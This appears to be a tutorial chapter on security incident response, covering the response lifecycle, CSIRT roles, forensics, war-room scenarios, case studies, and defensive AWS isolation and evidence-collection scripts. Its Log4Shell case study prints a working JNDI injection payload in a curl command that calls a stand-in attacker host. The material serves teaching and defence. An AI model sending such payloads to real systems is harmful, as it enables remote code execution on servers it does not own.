

## Overview

Security incidents **are not a matter of "if" but "when"**.

Even with perfect security controls, breaches happen. What differentiates excellent organizations from poor ones is not whether they get attacked, but **how they respond**.

A well-prepared team can:
- Detect threats in **minutes** instead of months
- Contain damage **immediately**
- Recover **without extended downtime**
- Learn and improve **systematically**

---

## What Is Incident Response?

Incident Response = **organized process for detecting, containing, remediating, and learning from security incidents**.

### Severity Levels

```
SEV4 (Low Priority)
├─ No customer impact
├─ No data exposure
├─ Internal issue only
├─ Response time: 5 working days
└─ Example: Unauthorized SSH access attempt (blocked)

SEV3 (Medium Priority)
├─ Minor customer impact possible
├─ No sensitive data exposed
├─ Response time: 24 hours
└─ Example: Elevated API error rate (isolated)

SEV2 (High Priority)
├─ Significant customer impact
├─ Sensitive data possibly exposed
├─ Response time: 2 hours
├─ War Room opened
└─ Example: Database access anomaly

SEV1 (Critical / All Hands)
├─ Large-scale outage / massive data breach
├─ Immediate response required
├─ Response time: 15 minutes
├─ War Room opened, all hands on deck
├─ Executive notification required
├─ Example: RCE in production, credential compromise
```

---

## IR Lifecycle (NIST SP 800-61)

The NIST Incident Response lifecycle has **6 phases**:

### Phase 1: Preparation

**Before the incident even happens, prepare your defenses.**

```
Preparation includes:
├─ Tools: SIEM, EDR, IDS/IPS, logging infrastructure
├─ People: Assign IR team members, define roles
│   ├─ Incident Commander (IC) — Overall coordination
│   ├─ Lead Investigator — Technical investigation
│   ├─ Communications Lead — Internal/external comms
│   └─ Others: Logger, scribe, domain experts
├─ Processes: IR Plan, Playbooks, procedures
├─ Training: Regular drills, Tabletop Exercises
└─ Response readiness: On-call rotation, escalation paths

Key activities:
✅ Set up automated monitoring (GuardDuty, CloudWatch, SIEM)
✅ Create incident response plan document
✅ Develop playbooks for common scenarios
✅ Conduct quarterly training
✅ Perform tabletop exercises monthly
```

### Phase 2: Detection & Analysis

**Detect the incident and understand what's happening.**

```
Detection sources:
├─ Automated alerts (SIEM, IDS, GuardDuty, WAF)
├─ Manual reports (team, customer, security researcher)
└─ Third-party notification (from vendor, auditor)

Analysis activities:
├─ Confirm it's a real incident (not false positive)
├─ Classify severity (SEV1-4)
├─ Identify what happened (scope, timeline)
├─ Identify what systems are affected
└─ Identify what data may be compromised

Key questions to answer:
1. What happened? (RCE? Data exfil? Lateral movement?)
2. When did it start? (discovery time vs actual time)
3. Which systems are affected?
4. What data/customers are impacted?
5. Is it still ongoing?
6. How did it happen? (zero-day? config error? weak password?)

Initial response (first 30 minutes):
- Acknowledge the incident internally
- Assign Incident Commander
- Open War Room (Slack channel, Zoom call)
- Begin logging everything
- Start forensic evidence collection
```

### Phase 3: Containment

**Stop the attack from spreading, minimize damage.**

```
Containment strategies:
├─ Short-term: Stop the bleeding
│   ├─ Isolate affected servers (Security Group block)
│   ├─ Revoke compromised credentials
│   ├─ Block IPs/domains
│   ├─ Enable additional logging
│   └─ Backup evidence before changes
│
├─ Medium-term: Prevent re-infection
│   ├─ Patch vulnerabilities
│   ├─ Update WAF rules
│   ├─ Deploy IPS signatures
│   └─ Tighten network policies
│
└─ Long-term: Eliminate infection
    ├─ Rebuild systems from scratch
    ├─ Rotate all credentials
    └─ Verify cleanup

Critical principle: PRESERVE EVIDENCE
Before isolating a system:
1. Create EBS snapshot (memory image if possible)
2. Document system state (ipconfig, netstat, processes)
3. Collect logs
4. Only then: isolate/reboot/remediate

"Murder scene preservation" principle applies here!
```

### Phase 4: Eradication

**Remove the attacker's access, eliminate root cause.**

```
Eradication steps:
├─ Kill attacker processes
├─ Remove backdoors
├─ Patch vulnerabilities
├─ Remove attacker accounts
├─ Clean up malware
├─ Rotate all credentials
├─ Update WAF rules
└─ Rebuild compromised systems

Verification (very important!):
├─ Confirm attack is gone
├─ Hunt for secondary backdoors
├─ Verify attacker can't regain access
├─ Review logs for suspicious activity after eradication
└─ Run full malware scans again

Example: "We removed the backdoor, but attacker had 2FA bypass too"
→ Only removing backdoor would let attacker back in!
```

### Phase 5: Recovery

**Bring systems back online safely.**

```
Recovery process:
├─ 1. Patch and harden
│   ├─ Apply all security patches
│   ├─ Update configurations to secure baseline
│   ├─ Enable security controls (MFA, encryption, logging)
│   └─ Verify all mitigations are in place
│
├─ 2. Restore services
│   ├─ Restore from clean backups (pre-infection)
│   ├─ Restore incrementally (monitor for re-infection)
│   ├─ Enable enhanced monitoring during recovery
│   └─ Have rollback plan if issues appear
│
├─ 3. Monitor closely
│   ├─ Watch metrics, logs, alerts for anomalies
│   ├─ Keep IR team on standby
│   ├─ Gradual traffic ramp-up
│   └─ Gradual return to normal operations
│
└─ 4. Declare recovered
    └─ Only when confirmed fully operational + clean

Key principle: Don't rush. Better to be slow and sure.
```

### Phase 6: Lessons Learned / Post-Incident Review

**Learn from the incident to prevent recurrence.**

```
Post-incident process:
├─ 1. Conduct blameless post-mortem
│   ├─ Timeline of events
│   ├─ What went well (good detection? quick response?)
│   ├─ What didn't go well (slow containment? unclear comms?)
│   ├─ Root causes (not blame, systems/processes)
│   └─ Contributing factors (lack of monitoring? weak password policy?)
│
├─ 2. Generate action items
│   ├─ P0: Immediate actions (prevent re-infection)
│   ├─ P1: Urgent (1-2 weeks)
│   ├─ P2: Important (1-2 months)
│   └─ P3: Nice to have
│
├─ 3. Track and complete
│   ├─ Every action item gets a ticket (Jira)
│   ├─ Assign owner + deadline
│   ├─ Track in weekly security meetings
│   └─ P0 actions completed before declaring all-clear
│
└─ 4. Share learnings
    ├─ Publish redacted post-mortem to team
    ├─ Brown bag session with learnings
    ├─ Update IR playbooks
    └─ Update security tools/rules

Golden Rule of Post-Mortems: **BLAME CULTURE = COVER-UPS**

❌ "John's weak password caused this"
   → Next time John doesn't report attacks

✅ "Password policy didn't enforce complexity"
   → System problem, everyone helps improve
```

---

## CSIRT (Computer Security Incident Response Team)

CSIRT = dedicated team for incident response

### CSIRT Structure

```
Typical CSIRT Roles:

Incident Commander (IC)
├─ Responsible for overall incident response
├─ Runs war room, makes escalation decisions
├─ Communicates with leadership
├─ NOT necessarily technical
└─ Role rotates (different IC for each incident)

Lead Investigator
├─ Technical lead on forensic investigation
├─ Determines what happened, how, when
├─ Coordinates forensic evidence collection
├─ Directs technical remediation steps
└─ May be multiple people (one per affected domain)

Communications Lead
├─ Handles internal comms (Slack, email, calls)
├─ Drafts customer notification (if needed)
├─ Logs all decisions/actions
├─ No surprises for executives
└─ May need legal/PR team involvement

Supporting Roles
├─ Evidence Manager: Collects/preserves evidence
├─ Systems Engineers: Remediation, recovery
├─ Network Engineers: Network investigation, block IPs
├─ Database Admins: Database forensics, recovery
├─ Application Teams: App-specific investigation
└─ Executives: Approval for disclosure, customer comms

Team Structure:
└─ Small Startup (10-50 people)
   └─ Security champion model (not full-time CSIRT)
      └─ Triggered on SEV1/2

└─ Mid-size (50-500 people)
   └─ 2-3 dedicated CSIRT + on-call rotation
      └─ Handles all incidents

└─ Enterprise (500+ people)
   └─ SOC (Security Operations Center) 24/7
      └─ CSIRT + Red Team + incident management team
```

---

## Digital Forensics

Forensics = **scientific investigation of digital evidence**.

### Key Principles

```
1. Preservation
   └─ Original evidence never touched
   └─ Work on copies, hash original for verification
   └─ Chain of custody documentation

2. Documentation
   └─ Photo everything before touching
   └─ Document every action taken
   └─ Note times, names, methodologies

3. Integrity
   └─ Verify with cryptographic hashing (MD5, SHA256)
   └─ Can't change by even 1 bit without hash changing
   └─ Proves evidence not tampered

4. Repeatability
   └─ Another forensicist should get same results
   └─ Use documented, standard procedures
   └─ Avoid proprietary/unclear methods
```

### Types of Evidence Collected

```
System Evidence:
├─ Memory dump (RAM) — shows running processes, open connections
├─ Disk snapshot (EBS) — full filesystem, deleted files
├─ Logs (OS/Application) — actions performed
└─ Network traffic (PCAP) — network activity

File Evidence:
├─ Modified files
├─ Installed malware
├─ Downloaded tools
└─ Configuration changes

Timeline Evidence:
├─ File creation/modification times
├─ Log timestamps
├─ Network connection times
└─ Process execution times

Credential Evidence:
├─ SSH keys created/uploaded
├─ Users added/modified
├─ Permission changes
└─ Access logs
```

### Forensic Investigation Example

```
Scenario: "Unauthorized SSH access detected on web-server-prod"

Timeline:
2024-03-15 14:23:45 UTC — GuardDuty alert: "Reconnaissance activity"
2024-03-15 14:25:12 UTC — Team discovered account: ubuntu@IP-10-1-2-3
2024-03-15 14:30:00 UTC — Isolated server from network
2024-03-15 14:35:00 UTC — Created EBS snapshot (for forensics)

Investigation Steps:
1. Preserve Evidence
   └─ EBS snapshot created: snap-0a1b2c3d4e5f6g7h8
   └─ Memory dump collected (using AVML/LiME)
   └─ CloudTrail logs exported

2. Timeline Reconstruction
   └─ Review /var/log/auth.log for failed login attempts
   └─ Find successful login: "2024-03-15 14:22:30 ubuntu from 203.0.113.42"
   └─ Check ~/.bash_history, ~/.ssh/authorized_keys
   └─ Review /var/log/syslog for suspicious activities

3. Artifact Analysis
   └─ .ssh directory: Check for unauthorized keys
   └─ Cron jobs: Any new scheduled tasks?
   └─ Installed packages: apt/yum logs for new software
   └─ Running processes: Any unusual processes?

4. Conclusions
   └─ SSH key added to authorized_keys on 2024-03-15 14:22:30
   └─ Attacker likely performed reconnaissance (port scans, etc.)
   └─ No data exfiltration detected (no large outbound transfers)
   └─ Access vector: Weak password or key compromise

Questions Answered:
✅ How did they get in? (Weak SSH password)
✅ When? (2024-03-15 14:22:30)
✅ What did they do? (Looked around, no damage)
✅ How to prevent? (Disable password auth, require key-based only)
```

---

## War Room Operations

War Room = **crisis management center for incident response**.

### War Room Setup

```
Communication:
├─ Dedicated Slack channel (#incident-SEV1)
├─ Zoom/Teams call (continuous)
├─ Phone bridge (backup)
└─ Optional: In-person war room (at office)

People:
├─ Incident Commander (chairs the meeting)
├─ Lead Investigator (technical status updates)
├─ Communications Lead (external messaging)
├─ Systems/Network/DB engineers (remediation)
└─ Optional: Legal, PR, CEO/CTO (for visibility)

Frequency:
├─ Status updates: Every 15-30 minutes (depends on severity)
├─ Stakeholder updates: Every 1-2 hours
├─ Leadership updates: Daily (or more)
└─ Customer comms: When impact is customer-facing

Structure of Status Update:
├─ Current status (still ongoing? partially contained?)
├─ What we know (scope, impact, timeline)
├─ What we're doing (actions in progress)
├─ What we expect next (timeline to recovery)
├─ Blockers/help needed
└─ ETA to resolution

Key Rules:
├─ IC talks to leadership (not everyone)
├─ Avoid side conversations (all talk in war room)
├─ Action items recorded (who, what, by when)
├─ Decision log maintained (why did we decide X?)
└─ Transparency: "I don't know" is better than guessing
```

### Common War Room Scenarios

```
War Room Scenario 1: Data Breach
────────────────────────────────
Alert: "Unusual database query from anomalous IP detected"

Actions:
├─ [T=0] Incident Commander declared, War Room opened
├─ [T=5] Isolated database server
├─ [T=15] Lead Investigator: "Query appears to be SELECT *,
│         likely full dump of customers table (300K records)"
├─ [T=20] Legal+PR notified: "May need customer notification"
├─ [T=30] Decision: Assume worst-case, begin customer notification
├─ [T=1hr] Root cause found: AWS key leaked in GitHub
├─ [T=2hr] New keys generated, old keys revoked
├─ [T=4hr] Database restored from clean backup
├─ [T=6hr] Customer notification sent
├─ [T=8hr] Systems back to normal

Lessons: GitHub scanning would have caught exposed key in minutes

────────────────────────────────

War Room Scenario 2: Ransomware Attack
────────────────────────────────
Alert: "All files in S3 bucket encrypted with .ransom extension"

Actions:
├─ [T=0] War room, network isolation begins
├─ [T=5] Ransomware note found: "$100K or we delete backups"
├─ [T=10] Decision: Will NOT pay (policy)
├─ [T=20] Check backup integrity
│         ✅ Good news: Backups are clean (attacker didn't get there)
│         ❌ Bad news: Attacker has 1 week to make good on threat
├─ [T=1hr] Isolate affected infrastructure
├─ [T=2hr] Restore from backup begins
├─ [T=24hr] Full recovery complete
├─ [T=2days] Audit: How did they get in?
│            (Answer: Unpatched Windows server, RDP exposed)

Lessons: Immutable backups + segmentation would have contained this
────────────────────────────────

War Room Scenario 3: Service Outage (not external attack)
────────────────────────────────
Alert: "Production API down, 503 errors"

War Room Coordinates:
├─ [T=0] Is it a security incident? (checking for suspicious activity)
├─ [T=5] GuardDuty shows: No attack detected, looks like operational
├─ [T=10] Handed off to SRE team (not CSIRT anymore)

Note: Sometimes what looks like attack is just operational issue!
Always check before assuming.
```

---

## Real-World Case Studies

### Case Study 1: SolarWinds Supply Chain Attack (2020)

```
SolarWinds Incident — Most sophisticated supply chain attack

Timeline:
2019.10  Attackers compromised SolarWinds build system
2020.03  Malicious Orion update released (v2020.2)
         └─ 18,000+ organizations downloaded compromised software
         └─ Includes US government, Fortune 500, critical infrastructure
2020.12  FireEye discovers it while investigating own breach
         └─ About 9 months of undetected activity (dwell time)

Attack Method:
├─ Injected SUNBURST backdoor into legitimate software
├─ Backdoor checked for specific conditions before activating
├─ Only targeted select organizations (not everyone)
├─ Advanced obfuscation and evasion techniques

Key Lessons:
✅ Software supply chain is an attack surface
✅ CI/CD security is critical
✅ Signed updates can still be malicious
✅ Network monitoring (detecting exfil) is essential
✅ Reducing dwell time reduces damage

Lessons for Your Organization:
├─ Verify integrity of dependencies (SBOM)
├─ Monitor for unusual outbound network traffic
├─ Segment networks (if one service breached, isolate)
├─ Assume breach mentality (zero trust)
└─ Regular threat hunt exercises
```

### Case Study 2: Log4Shell Vulnerability (CVE-2021-44228)

```
Log4Shell — "The Internet's Chernobyl"

Timeline:
2021.11.24  Alibaba Cloud reports to Apache (private)
2021.12.09  PoC published publicly
            └─ Worldwide attacks start within hours
2021.12.10  Apache releases patch v2.15.0
2021.12.14  v2.15.0 incomplete, v2.16.0 released
2021.12.28  Additional issues, v2.17.1 released

The Vulnerability:
├─ Apache Log4j 2.x allows JNDI lookup in log messages
├─ Attacker puts "${jndi:ldap://attacker.com/a}" in request
├─ Server logs this, triggering JNDI lookup
├─ Attacker's server provides malicious code
├─ Code executes with server privileges (RCE!)

Example:
```
curl http://vulnerable-app.com/ \
  -H "User-Agent: ${jndi:ldap://attacker.com/a}"
```

When app logs this header, Java fetches and executes attacker's code!

Impact:
├─ CVSS 10.0 (maximum severity)
├─ Affects ~90% of Java applications
├─ Minecraft, Apple iCloud, Twitter, AWS, etc.
└─ Took weeks for many organizations to find/patch all instances

Key Lessons:
✅ Dependency management is critical (did you know Log4j was there?)
✅ Transitive dependencies matter (dependency of dependency)
✅ Network controls help (if you can't reach attacker.com)
✅ WAF can sometimes detect (pattern matching logs)
✅ Fast patching processes essential

Questions It Raised:
├─ "Do we even know where Log4j is used?"
│  → This became the biggest problem!
├─ "How do we update 1000 services in 48 hours?"
├─ "What if a service is unmaintained?"
└─ "How do we prevent similar issues?"

Lessons for Your Organization:
├─ SBOM (Software Bill of Materials) — know all dependencies
├─ SCA tools to detect vulnerable packages
├─ Auto-update pipelines (Dependabot, Renovate)
├─ WAF rules for common exploit patterns
├─ Network segmentation (quarantine suspicious services)
└─ Rapid patching procedures (quarterly? monthly?)
```

### Case Study 3: xz Utils Backdoor (CVE-2024-3094)

```
xz Backdoor — "Trust was the vulnerability"

Timeline:
2021-2022   "Jia Tan" contributes regularly to xz project
2023       Original maintainer burned out, Jia becomes co-maintainer
2024.02.02 xz 5.6.0 released with backdoor
2024.02.05 xz 5.6.1 released (backdoor perfected)
2024.03.29 Andres Freund (Microsoft) notices 0.5 second SSH delay
           └─ Investigates, finds backdoor
           └─ Single 0.5s delay was the only clue!

The Attack (Social Engineering):
├─ Spend 2+ years making legitimate contributions
├─ Gain trust of project (and community)
├─ Use maintainer burnout as opportunity
├─ Get code review access
├─ Hide backdoor in test files (binary) + autoconf macros
├─ Only activates in specific conditions

The Backdoor:
├─ Allows sshd authentication bypass
├─ Only specific attacker keys can bypass auth
├─ Disguised as liblzma library code
├─ Would have given attacker access to millions of Linux servers

Key Lessons:
✅ Open source maintainer burnout is a real risk
✅ Code review can miss sophisticated attacks
✅ "Gut feeling" of 0.5s delay shouldn't be ignored
✅ Reproducible builds help (rebuild independently to verify)
✅ Monitor for behavioral changes (speed, features)

Supply Chain Risks:
├─ Key person dependency (single maintainer)
├─ Financial incentives for maintainers
├─ Lack of redundancy
└─ Social engineering threat

Detection Method:
├─ Random performance degradation testing
├─ YARA scanning for suspicious patterns
├─ Reproducible builds + signature verification
└─ Open source security audits

Lessons for Your Organization:
├─ Sponsor open source projects you depend on
├─ Support maintainers (financially, help, relief)
├─ Implement reproducible builds
├─ Regular supply chain audits
├─ SLSA Framework implementation
└─ Behavioral monitoring of critical components
```

### Case Study Comparison

```
┌─────────────┬──────────────┬──────────────┬──────────────┐
│             │ SolarWinds   │ Log4Shell    │ xz Utils     │
├─────────────┼──────────────┼──────────────┼──────────────┤
│ Attack Type │ Supply Chain │ Vuln Exploit │ Supply Chain │
│ Duration    │ ~9 months    │ Hours-weeks  │ ~2 years     │
│ Discovery   │ Manual audit │ Security report│Performance  │
│ Impact      │ 18K+ orgs    │ Billions     │ Narrowly     │
│ CVSS        │ N/A          │ 10.0         │ 10.0         │
│ Root Cause  │ CI/CD breach │ Code defect  │ Social engg  │
│ Prevention  │ SBOM, SLSA   │ SCA, Testing │ Audit, Support│
└─────────────┴──────────────┴──────────────┴──────────────┘
```

---

## Common Questions in IR

```
Question:
"A departing employee's access still works. Is this a breach?"

Answer:
"Not necessarily, but needs investigation!

Possible scenarios:
1. Normal offboarding delay (legitimate)
2. Attacker still using stolen credentials
3. Attacker exploiting weak access controls

Action:
├─ Check CloudTrail: Has account been used since departure?
├─ Check from where: Same office IP or different location?
├─ Check what: Normal work activities or suspicious?
├─ Decision:
│  ├─ If used from expected location + normal activity → likely offboarding
│  ├─ If used from attacker IP → potential breach
│  └─ If suspicious commands → forensics investigation

Questions:
1. If legitimate, how is this still a problem?
2. How do we prevent re-access after offboarding?
3. Is offboarding even being tracked?
4. What does our control plan look like?"
```

---

## Hands-On Labs

### Lab 1: AWS GuardDuty Setup

GuardDuty = AWS's threat detection service (intelligent monitoring)

```bash
#!/bin/bash
# guardduty-setup.sh

# 1. Enable GuardDuty
echo "=== Enabling GuardDuty ==="
DETECTOR_ID=$(aws guardduty create-detector \
  --enable \
  --finding-publishing-frequency FIFTEEN_MINUTES \
  --query 'DetectorId' \
  --output text)

echo "Detector ID: $DETECTOR_ID"

# 2. Create SNS topic for alerts
echo "=== Creating SNS Topic ==="
TOPIC_ARN=$(aws sns create-topic \
  --name guardduty-alerts \
  --query 'TopicArn' \
  --output text)

echo "Topic ARN: $TOPIC_ARN"

# Email subscription
aws sns subscribe \
  --topic-arn "$TOPIC_ARN" \
  --protocol email \
  --notification-endpoint security-team@company.com

# 3. EventBridge rule to route high-severity findings to SNS
echo "=== Creating EventBridge Rule ==="
aws events put-rule \
  --name guardduty-high-severity \
  --event-pattern '{
    "source": ["aws.guardduty"],
    "detail-type": ["GuardDuty Finding"],
    "detail": {
      "severity": [{"numeric": [">=", 7]}]
    }
  }' \
  --state ENABLED

aws events put-targets \
  --rule guardduty-high-severity \
  --targets "Id"="1","Arn"="$TOPIC_ARN"

echo "=== Setup Complete ==="
echo "GuardDuty findings severity 7+ will trigger email alerts"
```

### Lab 2: Automated Instance Isolation

When a threat is detected, automatically isolate the instance:

```python
# lambda_auto_isolate.py
# When GuardDuty detects EC2 threat, isolate automatically

import json
import boto3
import logging
from datetime import datetime

logger = logging.getLogger()
logger.setLevel(logging.INFO)

ec2 = boto3.client('ec2')
sns = boto3.client('sns')

ISOLATION_SG_ID = 'sg-isolation-id'
ALERT_TOPIC_ARN = 'arn:aws:sns:ap-northeast-2:123456789012:security-alerts'

def lambda_handler(event, context):
    """
    Triggered by GuardDuty findings
    Automatically isolate EC2 instances
    """
    logger.info(f"Received event: {json.dumps(event)}")

    detail = event.get('detail', {})
    finding_type = detail.get('type', '')
    severity = detail.get('severity', 0)

    # Only handle high-severity EC2 threats
    if 'EC2' not in finding_type or severity < 7:
        logger.info(f"Skipping: type={finding_type}, severity={severity}")
        return {'statusCode': 200, 'body': 'Skipped'}

    # Extract affected instance
    resource = detail.get('resource', {})
    instance_id = resource.get('instanceDetails', {}).get('instanceId')

    if not instance_id:
        logger.error("No instance ID found")
        return {'statusCode': 400, 'body': 'No instance ID'}

    logger.info(f"Isolating instance: {instance_id}")

    try:
        # 1. Backup current Security Group
        instance = ec2.describe_instances(InstanceIds=[instance_id])
        current_sgs = [
            sg['GroupId']
            for sg in instance['Reservations'][0]['Instances'][0]['SecurityGroups']
        ]

        # Tag instance with original SGs (for recovery)
        ec2.create_tags(
            Resources=[instance_id],
            Tags=[
                {'Key': 'OriginalSecurityGroups', 'Value': ','.join(current_sgs)},
                {'Key': 'IsolatedAt', 'Value': datetime.utcnow().isoformat()},
                {'Key': 'IsolationReason', 'Value': finding_type}
            ]
        )

        # 2. Replace with isolation security group
        ec2.modify_instance_attribute(
            InstanceId=instance_id,
            Groups=[ISOLATION_SG_ID]
        )

        # 3. Alert team
        message = f"""
        [SECURITY AUTO-ISOLATION]

        Instance: {instance_id}
        Threat Type: {finding_type}
        Severity: {severity}
        Isolated At: {datetime.utcnow().isoformat()} UTC
        Previous Security Groups: {current_sgs}

        System automatically isolated. Begin forensic analysis.
        """

        sns.publish(
            TopicArn=ALERT_TOPIC_ARN,
            Subject=f'[SEV1] EC2 Auto-Isolated: {instance_id}',
            Message=message
        )

        logger.info(f"Successfully isolated {instance_id}")
        return {'statusCode': 200, 'body': f'Isolated {instance_id}'}

    except Exception as e:
        logger.error(f"Isolation failed: {str(e)}")
        sns.publish(
            TopicArn=ALERT_TOPIC_ARN,
            Subject=f'[CRITICAL] Isolation Failed: {instance_id}',
            Message=f'Failed to isolate {instance_id}: {str(e)}'
        )
        raise
```

### Lab 3: Forensic Evidence Collection

```bash
#!/bin/bash
# forensic-collect.sh
# Automatically collect forensic evidence

set -euo pipefail

CASE_ID="${1:?Usage: $0 <case-id> <instance-id>}"
INSTANCE_ID="${2:?Usage: $0 <case-id> <instance-id>}"
EVIDENCE_BUCKET="forensic-evidence-${AWS_ACCOUNT_ID}"
TIMESTAMP=$(date -u +"%Y%m%dT%H%M%SZ")
PREFIX="cases/${CASE_ID}/${TIMESTAMP}"

echo "=== Forensic Evidence Collection Started ==="
echo "Case ID: $CASE_ID"
echo "Instance: $INSTANCE_ID"
echo "Timestamp: $TIMESTAMP"
echo ""

# 1. Instance metadata
echo "[1/5] Collecting instance metadata..."
aws ec2 describe-instances \
  --instance-ids "$INSTANCE_ID" \
  > "/tmp/${CASE_ID}-instance-metadata.json"

aws s3 cp "/tmp/${CASE_ID}-instance-metadata.json" \
  "s3://${EVIDENCE_BUCKET}/${PREFIX}/instance-metadata.json"

# 2. EBS snapshots
echo "[2/5] Creating EBS snapshots..."
VOLUME_IDS=$(aws ec2 describe-instances \
  --instance-ids "$INSTANCE_ID" \
  --query 'Reservations[0].Instances[0].BlockDeviceMappings[*].Ebs.VolumeId' \
  --output text)

for VOL_ID in $VOLUME_IDS; do
  echo "  Creating snapshot for $VOL_ID..."
  SNAP_ID=$(aws ec2 create-snapshot \
    --volume-id "$VOL_ID" \
    --description "Forensic-${CASE_ID}-${VOL_ID}" \
    --tag-specifications "ResourceType=snapshot,Tags=[
      {Key=CaseId,Value=${CASE_ID}},
      {Key=Purpose,Value=Forensics},
      {Key=SourceInstance,Value=${INSTANCE_ID}},
      {Key=CollectedAt,Value=${TIMESTAMP}}
    ]" \
    --query 'SnapshotId' \
    --output text)
  echo "  Snapshot ID: $SNAP_ID"
done

# 3. CloudTrail events (last 24 hours)
echo "[3/5] Collecting CloudTrail events..."
aws cloudtrail lookup-events \
  --start-time "$(date -u -d '24 hours ago' +%Y-%m-%dT%H:%M:%SZ)" \
  --end-time "$(date -u +%Y-%m-%dT%H:%M:%SZ)" \
  --max-results 1000 \
  > "/tmp/${CASE_ID}-cloudtrail.json"

aws s3 cp "/tmp/${CASE_ID}-cloudtrail.json" \
  "s3://${EVIDENCE_BUCKET}/${PREFIX}/cloudtrail-events.json"

# 4. VPC Flow Logs
echo "[4/5] Collecting VPC Flow Logs..."
VPC_ID=$(aws ec2 describe-instances \
  --instance-ids "$INSTANCE_ID" \
  --query 'Reservations[0].Instances[0].VpcId' \
  --output text)

aws logs filter-log-events \
  --log-group-name "/aws/vpc/flowlogs/${VPC_ID}" \
  --start-time "$(date -u -d '24 hours ago' +%s)000" \
  --end-time "$(date -u +%s)000" \
  > "/tmp/${CASE_ID}-flowlogs.json" 2>/dev/null || echo "  No Flow Logs"

aws s3 cp "/tmp/${CASE_ID}-flowlogs.json" \
  "s3://${EVIDENCE_BUCKET}/${PREFIX}/vpc-flowlogs.json" 2>/dev/null || true

# 5. Memory dump (if available)
echo "[5/5] Attempting memory collection..."
aws ssm send-command \
  --instance-ids "$INSTANCE_ID" \
  --document-name "AWS-RunShellScript" \
  --parameters 'commands=[
    "if [ -f /opt/avml/avml ]; then sudo /opt/avml/avml /tmp/memory.lime && aws s3 cp /tmp/memory.lime s3://${EVIDENCE_BUCKET}/${PREFIX}/memory.lime; else echo AVML not installed; fi"
  ]' \
  --comment "Forensic memory dump - ${CASE_ID}" \
  2>/dev/null || echo "  SSM connection unavailable"

# Complete
echo ""
echo "=== Collection Complete ==="
echo "Evidence Location: s3://${EVIDENCE_BUCKET}/${PREFIX}/"
aws s3 ls "s3://${EVIDENCE_BUCKET}/${PREFIX}/" 2>/dev/null || echo "(Upload in progress)"

# Hash for integrity verification
echo ""
echo "=== Evidence Hashes (for integrity verification) ==="
for f in /tmp/${CASE_ID}-*.json; do
  sha256sum "$f" 2>/dev/null || true
done

# Clean up
rm -f /tmp/${CASE_ID}-*.json

echo ""
echo "Forensic analysis ready to begin"
```

---

## In Practice

### Startup (10-50 people)

```
Minimal IR Program:
├─ 1-page IR Plan + contact list
├─ Define: Who's Incident Commander?
├─ Setup: GuardDuty (30 days free)
├─ Communication: Slack #incident channel
├─ Training: Quarterly tabletop (30 min)

Investment: ~4 hours setup, 1 hour/month maintenance
Cost: ~$50/month (GuardDuty)
```

### Mid-size (50-500 people)

```
Structured IR Program:
├─ Complete IR Plan + Playbooks (5-10 scenarios)
├─ CSIRT team (2-3 people, overlapping with dev)
├─ Tools: SIEM, GuardDuty, Security Hub, Detective
├─ On-call: PagerDuty rotation
├─ Training: Monthly tabletop, quarterly full drills
├─ Post-Mortem: Mandatory for SEV1/2

Investment: 2-3 full-time CSIRT staff
Cost: $2K-10K/month tools
```

### Enterprise (500+ people)

```
24/7 SOC Model:
├─ IR Plan with legal review
├─ CSIRT + SOC (10+ people)
├─ Enterprise SIEM (Splunk, QRadar)
├─ SOAR (Security Orchestration, Automation, Response)
├─ EDR (Endpoint Detection & Response)
├─ Training: Weekly drills, monthly full exercises
├─ Red Team / Purple Team operations
├─ Regulatory: KISA reports (24hr), Privacy law (72hr notification)

Investment: 10-50 dedicated security people
Cost: Millions annually
```

---

## Common Mistakes

### Mistake 1: No Plan Until Incident Happens

```
❌ "We'll figure it out when it happens"
   → Incident hits → Panic → Slow response → Damage spreads

✅ Plan before incident:
   - IR Plan document (40% of response)
   - Playbooks for common scenarios
   - Team roles pre-assigned
   - Tools pre-configured
   - Regular drills (practice!)
```

### Mistake 2: Destroying Evidence

```
❌ "We think we're hacked, let me restart the server!"
   "There's a malicious file, delete it immediately!"

→ Forensics impossible, can't prove what happened

✅ "First, preserve evidence":
   - Memory dump before restart
   - Hash files before deletion
   - Copy logs before archiving
   - Original equipment untouched
```

### Mistake 3: Blame Culture in Post-Mortems

```
❌ "Bob forgot to patch the server, that's why we got hacked"
   → Bob feels blamed → Bob doesn't report issues → Culture of hiding

✅ "The patch process didn't catch this":
   → System improvement → Everyone helps → Next time catches it
   → Culture of transparency
```

### Mistake 4: No Follow-up on Action Items

```
❌ "Post-mortem action items: 10 things"
   → 3 months later: 2 items done, 8 forgotten
   → 6 months later: same incident repeats

✅ "Track action items religiously":
   - Create Jira tickets for each
   - Assign owners
   - P0 items in next sprint
   - Weekly tracking in security meetings
   - "Post-mortem not closed until all P0 done"
```

### Mistake 5: Scaling Isolation Wrong

```
❌ Too broad: "Incident detected, shut down all production!"
   → Innocent services down → Business damage

❌ Too narrow: "Only isolate 1 server"
   → Malware spreads to 10 servers

✅ Calibrated isolation:
   - Map blast radius (what could it touch?)
   - Isolate a bit wider than suspected
   - Monitor for escape attempts
   - Gradually refine
```

---

## Summary

### The 6-Phase IR Lifecycle



### Core Principles

```
1. Preparation is 80% of success
   └─ Plan + tools + training before incident

2. Preserve evidence
   └─ Original untouched, hash everything

3. Communication is critical
   └─ War room, status updates, transparency

4. Blame-free culture
   └─ Focus on system, not person

5. Practice regularly
   └─ Tabletop exercises, drills, simulations
```

---

## Next Steps

🎉 **Security Section Complete!**

You've learned:
- Identity & Access Control (01)
- Secrets Management (02)
